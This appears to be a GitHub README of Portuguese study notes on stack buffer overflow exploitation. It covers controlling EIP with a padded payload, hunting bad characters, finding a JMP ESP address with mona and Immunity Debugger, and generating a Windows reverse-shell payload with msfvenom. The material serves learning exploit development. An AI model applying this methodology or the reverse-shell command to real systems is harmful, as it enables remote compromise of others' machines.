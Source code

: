 # pwoningfiasco

## informações básicas 
:bald_man:
_anotações de estudo sobre buffer over flow em ambientes linux e windows_
:bald_man: 
----------
:point_up: 

* analisar EIP apos enviar instrucao
* endereco EIP apontar topo stack = proxima instrucao
* _caso seja necessário utilizar uma ferramenta para automatizar esse processo_ !mona findmsp enter <- aponta para o endereço com o offset desejado (immunity debbugger)
----------
* _via burp > python -c 'print "A" * 780 + "BBBB" + "C" * (1000-784)'_
* enviar no ponto vulneravel apos identificado
* Dados = "A" * 780 + "BBBB" + "C" * (1200 - 784)
* ESP = espaco para colocar em shell code 
* Ter controle de eip
----------

### encontrando badchars 

* pegar lista de bad chars
* remover 00 por ser um byte problematico
* acrescentar um array definindo os caracteres problematicos (em hexa) _em bad = ("badchars.list")_
* mudar valores de dados para // dados = "A" * 780 + "BBBB" + bad \\

* atingiu endereço EIP > analisar o que há em ESP 
* Procurar quais caracteres problemáticos estão em nossa lista, e após encontrados remove-los do nosso shellcode. Shellcode carrega os dados até FF, então utilizaremos ele como referência.
-----

### identificando espaco para shell code

----- 
* É necessário ter pelo menos 351 bytes para criar o shellcode com auxilio do msfvenom, precisamos de espaço livre para o envio da shell, então é de importância que o endereço escolhido possa alocar esse espaço. Caso o endereço não consiga alocar tal quantidade de dados, é necessario encontrar um novo endereço ou realizar um egg hunt.
ver controle de EIP
endereço jmp < bom para apontar para o endereço desejado e.g. jmp ESP 

__controla EIP__ -- apontar para um ENDERECO FIXO QUE PULE PARA ESP e em ESP teremos o SHELLCODE
endereço fixo ? tem proteções? 
utilizar immunity para realizar o pulo com search for all commands in all modules e busque por JMP ESP 
Os dados relatados serão retornados ao usuário, logo, teremos o endereço de JMP ESP, e apontaremos nossa shellcode. 

Endereço do sistema operacional não é fixo, logo, teremos que testar as DDLs disponíveis.

Procurar por __JMP ESP__ em view code in cpu, isso será executado dentro da DLL que o programa detém. <- Lembrar que isso será feito na DLL.

* Procurar pela existência de mecanismos de segurança no programa ou em suas DLLs. 

### EXEMPLO
Mona modules
Rebase 
Safeseh 
ASLR

Após isso = 

Procurar e anotar o endereco vulneravel
e.g.  x010090c83 
breakpoint em jmp esp para testar execucao
codigo do xpl (shellcode) 
inserir end de retorno da forma inversa
x83 x0c x09 x10 
msfvenom -p windows/shell_reverse_tcp lhost=iplocal lport=porta -b badcharshere -f c 
shellcode = (shellcode here) 

send and done
